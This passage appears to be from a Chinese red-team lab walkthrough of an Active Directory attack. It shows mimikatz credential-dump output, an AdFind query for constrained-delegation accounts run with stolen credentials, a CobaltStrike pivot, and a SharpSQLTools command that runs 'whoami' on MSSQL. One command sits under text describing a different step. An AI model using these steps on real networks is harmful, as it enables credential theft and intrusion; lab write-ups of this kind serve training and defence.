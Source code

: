![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLRfCSXyEAUQiaSgZXzroOcicibd0ekJmEf1UGq2veiaKIjIMalV3NE1N3BA/640?wx_fmt=png)

通过调用 mimikatz 成功抓到其域用户的密码：  

```
Username  Domain   Password
--------  ------   --------
saul      REDTEAM  admin!@#45
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNL1ynVCVldHibve0yBXPoMaFawHLvD707cZxKbkfAJBwgI3FaRqSkmmKg/640?wx_fmt=png)

```
AdFind.exe -h 10.10.10.8 -u saul -up admin!@#45 -b "DC=redteam,DC=red" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto
```

**中转上线到 CobaltStrike 进行二层内网域渗透**

因为此 Win7 不出网，随后只能通过 CobaltStrike 设置中转：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNL6dQdgcpJ1Qfg1b5MGzl6ndbSvjZqwNrIQFRWj9cKTH6xzRbT0RvCcA/640?wx_fmt=png)

然后成功上线到 CobaltStrike：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLFT2raAqy63qXvTiauNenG4a0QvqMFyiaQJrml7SnSNfJJOUo1nf204SQ/640?wx_fmt=png)

通过信息搜集发现当前机器的确是在域环境：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLEJP5DM2jBJlWOGbXztavves78wdprzwRm65SDWQa4jTbtNZROyUe3Q/640?wx_fmt=png)

随后定位到域控 DC IP 为：`10.10.10.8`

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLialJ6FhvuRV0FEM47XO6pZQB03yQiaiaficd1xkP4IkuNGu4ES7elEz7Wg/640?wx_fmt=png)

想个办法拿到 DC，首先当前进程是没有域管的，所以暂且放弃令牌窃取：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLveOBkGILkxhWAhVP0p1vnOCHCNdPQnYaoRXs5mcg5AtnMuWX57jsyw/640?wx_fmt=png)

由于我们已经拿到了一个域用户的账户密码，尝试查找约束委派的用户：  

```
SharpSQLTools.exe 10.10.10.18 sa sa master install_clr whoami
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLx2pbU1kQQkW6rVWxhqhTmTgFDnPqADDwttnhK2ybH4HNOmSyEO34WQ/640?wx_fmt=png)

找到了一个 sqlserver 的用户是被设置了约束委派，得想办法搞到这个用户的账密。

通过信息搜集发现 sqlserver 这台机器开放了 80、1433（mssql）：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNL6usQXz5w1w0iabBm1ufcaP5703SmoJcLVwgf7IGANlXfZgpFDJ33nwQ/640?wx_fmt=png)

通过一顿信息搜集没发现 80 有什么可利用的东西：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNL0icvxaFrHtoqb526dRWxGLIDufQCNeHAeibgOmRYLQKnXV9KicJr7mfXA/640?wx_fmt=png)
